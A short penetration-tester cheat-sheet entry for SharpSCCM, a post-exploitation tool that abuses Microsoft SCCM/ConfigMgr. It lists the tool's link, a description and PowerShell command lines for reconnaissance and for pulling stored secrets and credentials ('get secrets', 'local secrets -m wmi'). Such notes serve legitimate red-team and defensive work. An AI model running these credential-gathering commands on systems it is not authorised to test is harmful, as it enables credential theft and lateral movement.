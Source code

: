 # SharpSCCM

% sccm, mecm
#plateform/windows  #target/remote  

## _url
```
https://github.com/Mayyhem/SharpSCCM
```

## desc
```
SharpSCCM is a post-exploitation tool designed to leverage Microsoft Endpoint Configuration Manager (a.k.a. ConfigMgr, formerly SCCM) for credential gathering and lateral movement without requiring access to the SCCM administration console GUI.
```

## _links
```
https://github.com/Mayyhem/SharpSCCM/wiki
```

#cat/RECON

## local - site-info
```powershell
SharpSCCM.exe local site-info
```

## local - client-info
```powershell
SharpSCCM.exe local client-info
```

## local - user
```powershell
SharpSCCM.exe local user-sid
```

## get - retrieve admins
```powershell
SharpSCCM.exe get class-instances SMS_Admin -p CategoryNames -p CollectionNames -p LogonName -p RoleNames
```

#cat/ATTACK 

## get - get secrets
```powershell
SharpSCCM.exe get secrets
```

## get - local secrets
```powershell
sharpsccm.exe local secrets -m wmi
```